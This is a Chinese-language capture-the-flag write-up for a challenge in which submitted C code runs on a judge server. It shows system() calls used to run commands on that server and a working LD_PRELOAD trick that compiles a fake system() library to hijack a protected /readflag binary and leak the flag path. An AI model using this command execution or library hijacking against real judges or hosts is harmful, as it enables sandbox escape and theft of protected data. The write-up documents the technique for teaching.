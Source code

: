 ![](./img/malicious_desc.png)

Solution
---

首先~~这个题它确实可以AC~~可以用`system`来执行命令

```c
int solve() {
  system("id");
  return 123456789;
}
```

![](./img/malicious_solution_0.png)

其次~~AC也不给你flag~~找到一个`/readflag.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(char* flag_path) {
  char command[256];
  strcpy(command, "echo ");
  strcat(command, flag_path);
  strcat(command, " > /dev/null");
  system(command);
  printf("I know where the flag is but I won't tell you~~~");
}

int main() { print_flag("<audited>"); }
```

想要获取`/readflag`也是不可行的，只有执行没有读写权限。

想直接找flag也行，我也不知道是哪个诶嘿～

![](./img/malicious_solution_1.png)

这里`readflag`的嘲讽是多余的，咱制作一个假的`system`函数，使用`LD_PRELOAD`来进行动态库插桩

```c
#include <stdio.h>
#include <stdlib.h>

int solve() {
  char* src =
      "#include<stdio.h>\n"
      "int system(char * path) {\n"
      "  FILE * f = fopen(\"./flag_path\", \"w\");\n"
      "  fprintf(f, path);\n"
      "  fclose(f);\n"
      "}\n";
  FILE* f = fopen("./hack.c", "w");
  fputs(src, f);
  fclose(f);
  system("gcc hack.c -fPIC -shared -o hack.so");
  system("LD_PRELOAD=./hack.so ../readflag");
  system("cat ./flag_path");

  return 0;
}
```

![](./img/malicious_solution_2.png)

然后直接读取就好啦

> Dionysus佬打出了个非预期解，快去摇他～

> 另外还有个~~新生~~卡密想到了按修改时间排序的方法，着实给我打懵了QAQ
>
> ![](./img/malicious_another_solution.png)
